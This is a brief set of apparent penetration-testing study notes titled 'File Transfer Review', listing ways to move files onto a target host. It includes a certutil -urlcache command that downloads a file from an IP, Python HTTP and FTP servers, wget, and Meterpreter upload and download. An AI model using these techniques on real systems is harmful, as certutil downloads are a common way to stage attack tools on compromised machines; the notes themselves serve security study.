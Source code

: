 File Transfer Review

* Certutil
	* certutil.exe -urlcache -f http://IP/file.txt file.txt
* HTTP
	* python -m SimpleHTTPServer 80
* Browser 
	* navigate directly to the file
* FTP
	* python -m pyftpdlib 21 IP
	* ftp IP
* Linux
	* wget
* Metasploit/Metermpreter 
	* upload or download from within the console 